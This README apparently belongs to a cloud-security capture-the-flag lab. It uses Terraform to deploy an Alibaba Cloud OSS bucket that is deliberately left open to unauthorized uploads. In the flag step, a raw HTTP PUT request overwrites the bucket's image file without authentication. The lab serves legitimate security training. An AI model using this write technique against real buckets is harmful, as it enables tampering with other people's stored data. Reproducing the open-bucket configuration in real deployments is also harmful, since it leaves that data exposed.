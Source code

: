 # Description

English | [中文](./README_CN.md)

This is a script to help you quickly build storage buckets for unauthorized uploads, have fun!

## Deployment environment

### Git clone

```bash
cd /TerraformGoat/aliyun/oss/unrestricted_file_upload/ 
```

```bash
terraform init
```

![image-20220425192835507](../../../images/image-20220425192835507.png)

Configure Alibaba Cloud Access Credentials

```shell
aliyun configure
```

> You can create and view your AccessKey on the [AccessKey page](https://ram.console.aliyun.com/manage/ak) of the Alibaba Cloud console

```bash
terraform apply
```

![image-20220425192251992](../../../images/image-20220425192251992.png)

If you confirm that there is no problem, type yes and wait for the build

![image-20220425192314435](../../../images/image-20220425192314435.png)

## Get Flag

Visit /hx.png to get the image

![image-20220425192605952](../../../images/image-20220425192605952.png)

This image can be overwritten by using the PUT method

```http
PUT /hx.png HTTP/1.1
Host: hx-cloud-security-ctf-nsao6.oss-cn-beijing.aliyuncs.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 13

HxSecurityLab
```

![image-20220425192622938](../../../images/image-20220425192622938.png)

Afterwards, we use the GET method to get the contents of our overwritten

![image-20220425192649111](../../../images/image-20220425192649111.png)

## Destruction Challenge

```bash
terraform destroy
```

![image-20220425192403147](../../../images/image-20220425192403147.png)
